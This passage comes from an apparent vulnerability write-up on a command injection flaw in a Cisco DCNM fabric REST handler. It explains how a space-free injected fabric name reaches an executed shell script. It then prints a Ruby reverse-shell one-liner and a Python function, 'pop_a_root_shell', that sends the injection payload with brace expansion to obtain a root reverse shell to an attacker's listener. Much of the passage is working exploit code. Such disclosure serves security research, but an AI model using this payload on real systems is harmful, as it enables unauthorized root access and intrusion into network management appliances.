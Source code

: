Now when the `com.cisco.dcbu.vinci.dhcp.handler.DhcpAutoconfigImpl.getFabricDhcpConfigFileName` method is called on line *[190]*, we can return an injected string into `fabricDhcpFileName`. **This injected string must not contain spaces in order to survive previous checks**.

At line *[196]* we need to survive this call to `DhcpAutoconfigImpl.updatePrimarySubent`, so to ensure that I set the `primarySubnet`, `primaryDns` and `secondaryDns` variables to `127.0.0.1` (all valid ipv4 addresses).

Then at line *[204]* the code uses our injected `fabricDhcpFileName` when dynamically creating a shell script and then later at line *[206]* it is executed.

To exploit this, I used ruby with [bash brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) since I was not able to have spaces. Ruby is installed by default on the appliance and allowed me to craft a reverse shell in code that had no spaces.

```rb
c=TCPSocket.new("127.0.0.1","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print(io.read)}end
```

Below is the `pop_a_root_shell` method from my exploit that shows the layered entity bean that I crafted in json.

```py
def pop_a_root_shell(t, ls, lp):
    """ get dat shell! """
    handlerthr = Thread(target=handler, args=(lp,))
    handlerthr.start()
    uri = "https://%s/rest/fabrics" % t
    cmdi  = "%s\";'`{ruby,-rsocket,-e'c=TCPSocket.new(\"%s\",\"%d\");" % (random_string(), ls, lp)
    cmdi += "while(cmd=c.gets);IO.popen(cmd,\"r\"){|io|c.print(io.read)}end'}`'\""
    j = { 
        "name" : cmdi,
        "generalSetting" : {
            "asn" : "1337",
            "provisionOption" : "Manual"
        }, 
        "provisionSetting" : {
            "dhcpSetting": {
                "primarySubnet" : "127.0.0.1",
                "primaryDNS" : "127.0.0.1",
                "secondaryDNS" : "127.0.0.1"
            },
            "ldapSetting" : {
                "server" : "127.0.0.1"
            },
            "amqpSetting" : {
                "server" : "127.0.0.1:1337"
            }
        }
    }
    c = { "resttoken": resttoken }
    r = requests.post(uri, json=j, cookies=c, verify=False)
    if r.status_code == 200 and ls in r.text:
        return True
    return False
```
